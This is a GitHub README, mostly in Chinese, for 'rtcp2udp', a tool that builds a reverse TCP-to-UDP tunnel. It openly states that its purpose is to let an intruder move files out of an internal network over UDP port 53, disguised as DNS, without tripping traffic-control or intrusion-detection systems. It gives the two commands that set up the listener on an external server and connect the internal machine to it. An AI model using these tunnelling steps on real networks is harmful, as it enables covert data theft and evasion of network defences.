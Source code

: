 # rtcp2udp
反向端口转发工具  
Reverse TCP Port to UDP Forwarding Tools  

## 描述
在Hack场景中，Hack人员需要从内网获取指定文件，并向外网传输时，不被流控设备，入侵检测设备所警觉；  
于是有了本工具，本工具的原理为，向外网服务器建立一个反向的UDP端口(53)隧道，用于文件传输；  

## 实例图
![](https://github.com/ring04h/rtcp2udp/blob/master/portmap.png?20160429)

## 使用说明
Http Server  <- 内网机器 -> Internet Server  
client request -> tcp:119.29.29.29:80 -> udp:119.29.29.29:53 -> tcp:172.168.1.10:80

1. 在你的外网服务器监听用于服务的 UDP&TCP 端口
```bash
# 这里假设场景,你的外网服务器 IP 为 119.29.29.29
python tcp2udp.py -t 0.0.0.0:80 -u 0.0.0.0:53
```
2. 在内网机器打通与外网服务器之间的 UDP 隧道
```bash
python rtcp2udp.py -t 172.168.1.10:80 -u 119.29.29.29:53
```